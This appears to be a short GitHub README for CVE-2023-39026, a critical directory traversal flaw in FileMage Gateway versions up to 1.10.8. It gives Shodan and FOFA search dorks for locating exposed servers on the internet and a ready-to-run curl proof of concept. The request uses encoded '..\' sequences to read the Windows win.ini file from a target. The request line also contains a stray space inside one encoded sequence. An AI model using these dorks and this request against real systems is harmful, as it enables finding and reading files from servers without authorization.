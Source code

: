 # CVE-2023-39026

![](https://img.shields.io/static/v1?label=Product&message=FileMage%20Gateway&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v.1.10.8%20and%20before&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Directory%20Traversal&color=red)

- Shodan dork:
```
http.favicon.hash:"-209293751"
```
- FOFA dork:
```
icon_hash="-209293751"
```

### Curl PoC
```
curl -k -X 'GET' "http://target_ip_address:port/mgmnt/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5 cwindows%5cwin.ini"
```

